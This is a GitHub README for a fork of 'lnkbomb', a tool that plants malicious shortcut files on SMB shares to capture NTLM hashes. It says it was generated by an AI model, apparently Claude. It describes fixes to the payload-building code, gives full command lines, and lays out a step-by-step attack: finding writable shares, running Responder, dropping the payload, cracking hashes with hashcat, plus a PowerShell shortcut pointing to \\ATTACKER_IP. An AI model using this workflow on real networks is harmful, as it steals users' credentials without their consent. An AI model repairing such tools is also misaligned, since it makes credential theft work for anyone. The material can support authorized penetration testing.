


# Lnkbomb (Fixed Fork)
> This README File is generated by Claude Sonnet 4.6
> Malicious shortcut generator for collecting NTLM hashes from insecure file shares.

This is a fixed fork of [dievus/lnkbomb](https://github.com/dievus/lnkbomb), which was archived in November 2024. This fork addresses several bugs in the original that prevented the tool from working correctly against subdirectories on Windows shares.


---

## Changes From Original

### Bug 1 — Broken UNC Path in Payload (Critical)

**Problem:** The generated `.url` file contained a malformed UNC path due to incorrect Python escape sequences in an f-string:

```python
# Original (broken) — produces garbage like \\10.10.16.41\{directory}
f"WorkingDirectory=\\\\\{args.attacker}\{directory}"
```

The `\{` sequences are invalid Python escape sequences. The resulting payload file pointed to a broken path, meaning Windows never made an outbound SMB connection and **Responder would never capture a hash**.

**Fix:** Corrected the escape sequences to properly produce `\\ATTACKER_IP\directory`:

```python
# Fixed — produces correct \\10.10.16.41\abcdef
f"WorkingDirectory=\\\\{args.attacker}\\{directory}"
```

---

### Bug 2 — No Subdirectory Support

**Problem:** The original tool used `-s` for both the SMB share name and the upload path. The `pysmb` `storeFile()` method signature is:

```
storeFile(shareName, remotePath, fileObject)
```

Passing `Department Shares\Public\IT` as the share name caused pysmb to look for a share literally named `Department Shares\Public\IT`, which doesn't exist — resulting in a silent `NotConnectedError`. There was no way to upload a payload into a subdirectory of a share.

**Fix:** Added a `-d` / `--directory` flag for specifying a subdirectory path within the share, keeping `-s` as the share root only:

```bash
# Before (broken)
-s 'Department Shares\Public\IT'

# After (fixed)
-s 'Department Shares' -d 'Public\IT'
```

---

### Bug 3 — Silent Exception Handling

**Problem:** All exceptions were caught and replaced with a generic warning:

```python
except Exception as e:
    print('[warn] Please report the issue...')  # actual error: swallowed
```

This made debugging impossible — you had no idea what was actually failing.

**Fix:** Now prints the actual exception type and message:

```python
except Exception as e:
    print(f'[error] {type(e).__name__}: {e}')
```

---

### Bug 4 — No Connection Validation

**Problem:** `conn.connect()` returns `False` on failure but the original code never checked the return value, silently continuing and failing later with a cryptic error.

**Fix:** Added an explicit check:

```python
output = conn.connect(args.target, port)
if not output:
    print('[error] Failed to connect. Check credentials, IP, and NetBIOS name.')
    return
```

---

## Installation

```bash
git clone https://github.com/YOUR_USERNAME/lnkbomb.git
cd lnkbomb
pip install -r requirements.txt
```

> Note: Works most consistently on Linux. Windows may have issues with pysmb.

---

## Usage

```
python3 lnkbomb.py -h
```

### Flags

| Flag | Description |
|------|-------------|
| `-t` | Target IP address |
| `-a` | Attacker machine IP (written into the payload) |
| `-s` | Share name only (e.g. `Department Shares`) |
| `-d` | Subdirectory within the share (e.g. `Public\IT`) — **new in this fork** |
| `-u` | Username for share authentication |
| `-p` | Password for share authentication |
| `-n` | NetBIOS name of the target (required for Windows) |
| `-w` | Windows target (uses port 139) |
| `-l` | Linux target (uses port 445) |
| `-r` | Remove payload by filename (cleanup) |

### Example — Drop into subdirectory on Windows share

```bash
python3 lnkbomb.py \
  -t 192.168.1.79 \
  -a 192.168.1.21 \
  -s 'Department Shares' \
  -d 'Public\IT' \
  -u username \
  -p 'Password123!' \
  -n DC01 \
  --windows
```

### Example — Cleanup

```bash
python3 lnkbomb.py \
  -t 192.168.1.79 \
  -a 192.168.1.21 \
  -s 'Department Shares' \
  -u username \
  -p 'Password123!' \
  -n DC01 \
  --windows \
  -r abcdefghij.url
```

---

## Full Attack Workflow

**Step 1 — Find a writable share**

```bash
smbmap -H TARGET_IP -u username -p password -R
```

Look for directories showing `READ, WRITE` access.

**Step 2 — Start Responder on your attack box**

```bash
sudo responder -wrf -v -I tun0
```

**Step 3 — Drop the payload**

```bash
python3 lnkbomb.py -t TARGET_IP -a YOUR_IP -s 'ShareName' -d 'Sub\Dir' -u user -p pass -n HOSTNAME --windows
```

**Step 4 — Wait**

When a user browses the share, Windows automatically attempts to fetch the icon file from your attacker IP over SMB, triggering an NTLMv2 authentication request captured by Responder.



**Step 5 — Crack the hash**

```bash
hashcat -m 5600 captured.hash /usr/share/wordlists/rockyou.txt
```

**Step 6 — Cleanup**

```bash
python3 lnkbomb.py ... -r PAYLOAD_FILENAME.url
```

---

## Alternative — Manual PowerShell Method

If pysmb connectivity issues persist, generate and place the payload directly on the target via PowerShell (requires an existing shell on the target):

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\ATTACKER_IP\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "test"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()

Copy-Item "C:\legit.lnk" "\\TARGET\ShareName\SubDir\"
```

> Note: `.scf` files no longer work on Windows Server 2019+. Use `.lnk` files instead.

---

## Requirements

- Python 3
- pysmb
- colorama
- Responder or Inveigh running on your attack machine
- Write access to a share or directory that a privileged user browses

---

## Legal

This tool is intended for authorized penetration testing and educational purposes only. Do not use against systems you do not have explicit permission to test.

Original tool by [The Mayor](https://themayor.tech) — [original repo](https://github.com/dievus/lnkbomb).
